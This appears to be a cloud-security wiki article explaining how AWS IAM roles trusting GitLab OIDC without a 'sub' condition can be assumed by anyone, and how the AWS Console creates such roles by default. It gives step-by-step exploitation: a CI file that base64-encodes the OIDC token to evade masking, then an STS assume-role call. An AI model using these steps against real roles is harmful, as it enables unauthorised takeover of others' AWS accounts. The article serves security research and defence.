



[OpenID Connect](https://openid.net/developers/how-connect-works/) (OIDC) is a common technology used to authorize services outside of AWS to assume IAM roles. As has been shown many times in the past (examples: [one](https://securitylabs.datadoghq.com/articles/exploring-github-to-aws-keyless-authentication-flaws/), [two](https://securitylabs.datadoghq.com/articles/amplified-exposure-how-aws-flaws-made-amplify-iam-roles-vulnerable-to-takeover/), and [three](https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess)), these roles can be misconfigured, permitting anyone in the world the ability to assume a vulnerable role.

In this article, we will explain a potential misconfiguration of AWS IAM roles when using GitLab OIDC, walk through how to exploit them step-by-step, and explain how the AWS Console causes this misconfiguration by default.

!!! warning
    In this article, we are only covering misconfigured roles with a trust relationship to the [gitlab.com](https://gitlab.com/) SaaS offering. In theory this attack could be performed on a self-hosted version of GitLab as well, however we have not tried it. If you have, feel free to open a [pull request](https://github.com/Hacking-the-Cloud/hackingthe.cloud/pulls) and update this article as needed.

## IAM role misconfiguration using GitLab OIDC

According to the GitLab [documentation](https://docs.gitlab.com/ee/ci/cloud_services/aws/), AWS IAM roles that are using OIDC to authenticate should have a trust policy that looks like the following:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::AWS_ACCOUNT:oidc-provider/gitlab.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "gitlab.com:sub": "project_path:mygroup/myproject:ref_type:branch:ref:main"
        }
      }
    }
  ]
}
```

There are several important elements of this trust policy including:

* `Principal.Federated`: This is the identity provider that authorizes the role assumption. It is important to note that while each AWS account will have its own identity provider, this is simply a [stand-in](https://docs.gitlab.com/ee/ci/cloud_services/aws/#add-the-identity-provider) for the global `gitlab.com` provider. 
* `Action`: This is the specific type of assume role being used. In this case it is [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html).
* `gitlab.com:sub`: This is an optional condition which restricts the group, project, or branch which is permitted to assume the role.

The word "optional" from the previous sentence is why this attack is possible. There is no requirement to include a condition which restricts which specific group or project is permitted to assume a role. As a result of this __anyone with access to gitlab.com could assume a role with this misconfiguration__.

## How to exploit this misconfiguration

In this situation we will assume a role that has the following trust policy:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Principal": {
                "Federated": "arn:aws:iam::AWS_ACCOUNT:oidc-provider/gitlab.com"
            },
            "Condition": {
                "StringEquals": {
                    "gitlab.com:aud": [
                        "https://gitlab.com"
                    ]
                }
            }
        }
    ]
}
```

!!! Note
    In this example there is no condition on the `sub` field, restricting who is permitted to assume the role. This is the default trust policy that is set when creating a role through the AWS Console. More on this [later](#how-the-aws-console-causes-this-misconfiguration-by-default). 

To exploit this misconfigured role, we must generate a JWT that can be used to authorize the [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) invocation. To do this, create an account on gitlab.com or use an existing one.

Next, create a project, and in this newly created project, create a file called `.gitlab-ci.yml`. This is the configuration file for GitLab CI. Add the following content to the `.gitlab-ci.yml` file:

```yml
assume role:
  id_tokens:
    GITLAB_OIDC_TOKEN:
      aud: https://gitlab.com
  script:
    - echo ${GITLAB_OIDC_TOKEN} | base64 -w 0
```

!!! warning
    The `base64 -w 0` is required because GitLab will mask the output if you simply echo the `GITLAB_OIDC_TOKEN`. 

After adding this content to the `.gitlab-ci.yml` file, navigate to "Build > Jobs" on the left side, and click on the most recent CI job. Here you should see the OIDC token that we base64 encoded.



From here, decode the base64 encoded blob (`base64 -d`) to get the original `GITLAB_OIDC_TOKEN`. This is the JWT you will use in the following [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) call.

!!! Note
    You can optionally decode this value to see that the issuer is `https://gitlab.com`. This is what is being validated in the [sts:AssumeRoleWithWebIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html) and because there is no condition on the `sub` field, we are able to assume the misconfigured role.

```bash
nick.frichette@host ~ % aws sts assume-role-with-web-identity \
--role-arn <ARN of misconfigured role>
--role-session-name <session name of your choosing>
--web-identity-token  <JWT from previous step>
{
    "Credentials": {
        "AccessKeyId": "ASIAEXAMPLE123EXAMPL",
        "SecretAccessKey": "EXAMPLE123EXAMPLE123EXAMPLE123EXAMPLE123"
        "SessionToken": "[..snip..]",
        "Expiration": "2024-09-01T23:20:01+00:00"
    },
    "SubjectFromWebIdentityToken": "project_path:secres/runner-test:ref_type:branch:ref:main",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAEXAMPLE123EXAMPL:blah",
        "Arn": "arn:aws:sts::111111111111:assumed-role/vuln-gitlab-runner-role/blah"
    },
    "Provider": "arn:aws:iam::111111111111:oidc-provider/gitlab.com",
    "Audience": "https://gitlab.com"
}
```

You have successfully used a JWT generated from gitlab.com to assume a misconfigured IAM role!

## How the AWS console causes this misconfiguration by default

If you've been following along, you may wonder, "Why would anyone make this misconfiguration? The GitLab documentation provides an example that is secure". Misconfigurations occur for a wide variety of reasons and in a wide variety of scenarios, however this one may have a more clear cut reason. 

When creating IAM roles in the AWS console, developers can choose a `trusted entity` for `Web identity`. This will pre-populate the trust policy of the IAM role and generally makes things easier. However, when a developer chooses `Web identity` and selects `gitlab.com` as the identity provider, there is no requirement for a condition on the `sub` field. __Using the AWS console to create the IAM role will generate a vulnerable role by defualt__.





Compare this behavior to [GitHub Actions](https://www.wiz.io/blog/a-security-community-success-story-of-mitigating-a-misconfiguration) or [Terraform Cloud](https://hacktodef.com/addressed-aws-defaults-risks-oidc-terraform-and-anonymous-to-administratoraccess). In both of these situations, AWS made changes to the AWS Console to require additional fields to mitigate this type of attack.